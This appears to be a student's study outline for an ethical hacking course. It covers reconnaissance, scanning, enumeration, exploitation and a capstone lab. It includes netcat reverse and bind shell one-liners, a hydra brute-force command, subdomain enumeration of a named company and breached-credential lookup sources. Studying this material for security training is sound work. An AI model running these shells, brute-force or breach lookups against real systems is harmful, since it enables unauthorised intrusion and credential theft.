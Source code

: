 ### 1. **Networking Basics**
   - **IP Addressing & Subnetting**
   - **TCP/IP Protocol Suite**
   - **Common Protocols:** HTTP, HTTPS, FTP, SMTP, DNS
   - **Firewalls, Routers, Switches**

### 2. **Operating Systems**
   - **Linux Basics** (especially Kali Linux)
   - **Windows Command Line & PowerShell**
   - **File Systems, Processes, and Services**

### 3. **Programming/Scripting**
   - **Python** (commonly used for scripting attacks)
   - **Bash Scripting**
   - **Understanding C/C++** (for exploit development)
   - **JavaScript** (for web hacking)

### 4. **Web Technologies**
   - **HTML/CSS/JavaScript**
   - **HTTP/HTTPS**
   - **SQL Basics**
   - **Web Servers (Apache, Nginx)**

### 5. **Security Concepts**
   - **Cryptography Basics**
   - **Hashing Algorithms (SHA, MD5)**
   - **Public Key Infrastructure (PKI)**
   - **Authentication and Authorization**

### 6. **Penetration Testing Tools**
   - **Nmap** (Network Scanning)
   - **Wireshark** (Packet Analysis)
   - **Metasploit** (Exploitation Framework)
   - **Burp Suite** (Web Application Testing)

### 7. **Vulnerability Analysis**
   - **OWASP Top 10 Vulnerabilities**
   - **Common Vulnerabilities and Exposures (CVE)**
   - **Exploitation Techniques**

### 8. **Ethical Hacking Techniques**
   - **Footprinting & Reconnaissance**
   - **Scanning & Enumeration**
   - **Exploitation & Gaining Access**
   - **Maintaining Access & Covering Tracks**
   - **Social Engineering**

### 9. **Wireless Security**
   - **Wi-Fi Security (WEP, WPA, WPA2)**
   - **Wireless Attacks (WPA Cracking, Deauthentication)**
   - **Bluetooth Hacking**

### 10. **Malware Analysis**
   - **Types of Malware (Viruses, Trojans, Ransomware)**
   - **Reverse Engineering**
   - **Sandboxing**

### 11. **Legal and Ethical Considerations**
   - **Cyber Laws**
   - **Ethical Hacking Standards**
   - **Responsible Disclosure**

- VMWARE - VirtualBox - Kalix64
- **User & Privileges**

- pimpmykali
- cat echo touch nano
- scripting with bash
- grep cut
- ipsweep.sh
- nmap
- python scripting
	- sockets
- 5 stages of ethical hacking
	- COVERING TRACKS
	- RECONNAISSANCE - active and passive
	- SCANNING & ENUMERATION - Nmap, Nessus, Nikto
	- GAINING ACCESS - 'Exploitation'
	- MAINTAINING - access
- Passive Recon
	- Information Gathering
	- Physical/Social - location - job information
	- Web/Host Assessment
		- TARGET VALIDATION 
		- FINDING SUBDOMAINS
		- FINGERPRINTING
		- DATA BREACHES
	- Identifying our Target
		- Bugcrowd - progrms - Tesla
		- Discovering email addresses
			- hunter.io
			- phonebook.cz
			- emailhippo
	- Breached Credentials
		- hmaberick - breach-parse
		- dehashed
	- Hunting Subdomains
		- Web information gathering
			- sudo apt install sublist3r
			- sublist3r -d tesla.com
			- crt.sh %tesla.com
	- Identifying website technologies
		- BUILTWIT.com
		- wapalizer
		- whatweb
	- Gathering Information with Burpsuite
		- kioptrix
	- Scanning with Nmap 
		- arg-scan -l
		- netdiscover -r ip/24
		- stuff scanning
		- nmap -T4 -p- -A ip
	- Enumerating HTTP/HTTPS
		- nikto -h https://ip
		-  dirbuster / gobuster
	- Enumerating SMB
		- nsfconsole
		- nsfvenom
		- smbclient -L \\\\ip\\
	- Enumerating SSH
		- ssh ip
		- ssh ip -oKexAlgorithms=+hvghv
	- Researching potential vulnerabilities
		- searchploit
	- Scanning with Nessus
	- Reverse shells vs Bind shell
		- nc -nvlp port || nc ip port -e /bin/bash
		- nc ip port || nc -nvlp -e /bin/bash
		- staged vs non-staged payloads || nsfconsole
		- openluck
	- Bruteforce Attack
		- hydra -l root -P /usr/share/wordlists/metasploit
	- Credential stuffing and password spraying

- Capstone
	- dhclient - academy setup || ip -a || nmap
	- hashcat to crack md5 hashes
		- locate rockyou.txt  
		- ffuf
		- pspy
		- bash reverse shell one liner
	- dev walkthrough
		- boltwire exploit
		- gtfobins
			- sudo exkelations || zip
			- jenkins exploit
			- foxy proxy
			- groovy reverse shell
